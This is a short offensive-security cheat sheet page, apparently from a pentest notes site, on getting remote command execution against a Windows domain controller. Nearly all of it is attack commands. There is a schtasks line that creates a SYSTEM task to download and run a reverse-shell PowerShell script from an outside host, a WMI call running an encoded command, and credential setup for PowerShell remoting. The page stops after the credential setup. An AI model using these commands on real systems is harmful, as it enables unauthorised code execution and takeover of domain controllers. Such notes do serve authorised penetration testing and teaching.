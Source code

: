 ```yaml
---
description: Living of the land and getting RCEs
---
```


# 🟢 Remote Command Execution

| Tool           |   |   |
| -------------- | - | - |
| winrs          |   |   |
| Invoke-Command |   |   |
|                |   |   |

### Remote Command execution with scheduled tasks <a href="#command-execution-with-scheduled-tasks" id="command-execution-with-scheduled-tasks"></a>

{% code overflow="wrap" %}
```powershell
schtasks /create /tn "shell" /ru "NT Authority\SYSTEM" /s dc.targetdomain.com /sc weekly /tr "Powershell.exe -c 'IEX (New-Object Net.WebClient).DownloadString(''http://172.16.10.5/Invoke-PowerShellTcpRun.ps1''')'"
```
{% endcode %}

```
schtasks /RUN /TN "shell" /s dc.targetdomain.com
```

### WMI - Remote Command execution <a href="#command-execution-with-wmi" id="command-execution-with-wmi"></a>

{% code overflow="wrap" %}
```powershell
Invoke-WmiMethod win32_process -ComputerName dc.targetdomain.com -name create -argumentlist "powershell.exe -e $encodedCommand"
```
{% endcode %}

### PowerShell - Remote Command execution <a href="#command-execution-with-powershell-remoting" id="command-execution-with-powershell-remoting"></a>

{% code overflow="wrap" %}
```powershell
$SecPassword = ConvertTo-SecureString 'VictimUserPassword' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\targetuser', $SecPassword)
```
{% endcode %}
